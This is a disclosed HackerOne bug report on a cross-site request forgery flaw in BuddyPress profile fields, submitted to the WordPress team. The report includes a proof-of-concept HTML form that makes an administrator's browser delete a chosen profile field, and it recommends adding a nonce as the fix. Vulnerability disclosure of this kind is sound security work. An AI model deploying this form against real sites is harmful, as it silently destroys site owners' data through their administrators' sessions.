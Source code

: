 # CSRF in Profile Fields allows deleting any field in BuddyPress

## Report Details
- **Report ID**: 836187
- **URL**: https://hackerone.com/reports/836187
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-04-01T13:28:23.968Z
- **Disclosed**: 2020-05-22T00:32:45.432Z

## Reporter
- **Username**: hoangkien1020
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: wordpress

## Vulnerability Information
## Description:

CSRF in Profile Fields allows deleting any field in BuddyPress
Version: Latest

## Steps To Reproduce:
Step1: Using a form like so to create the CSRF:
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="[domain]/wp-admin/users.php">
      <input type="hidden" name="page" value="bp&#45;profile&#45;setup" />
      <input type="hidden" name="mode" value="delete&#95;field" />
      <input type="hidden" name="field&#95;id" value="[id_field]" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
Change your [domain] and [id_field]
Step 2: When admin click with step 1 was hidden in images,.... Step1 will allow deleting with [id_field]


## Recommendations
Adding _wpnonce for this function

## Impact

Attacker will this vulnerable to delete profile fileds, break availability and integrity.

## Attachments
No attachments
